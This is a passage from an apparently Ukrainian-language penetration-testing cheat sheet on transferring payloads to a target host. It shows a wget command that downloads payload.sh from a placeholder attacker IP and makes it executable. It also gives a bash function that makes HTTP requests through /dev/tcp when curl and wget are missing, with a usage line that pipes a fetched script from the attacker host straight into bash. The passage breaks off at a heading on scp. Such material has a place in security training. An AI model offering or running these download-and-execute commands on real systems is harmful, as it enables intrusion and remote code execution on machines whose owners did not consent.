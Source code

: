 ### 🔸 Через `wget`:
```bash
wget http://<attacker_ip>/payload.sh -O payload.sh
chmod +x payload.sh
```

---

## 🛠️ 4. Якщо немає curl/wget — використання Bash TCP (`/dev/tcp`)

```bash
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

**Використання:**
```bash
__wget http://<attacker_ip>/file.sh | bash
```
Все виконуємо виключно в терміналі.

---

## 🔒 5. Передача через `scp`
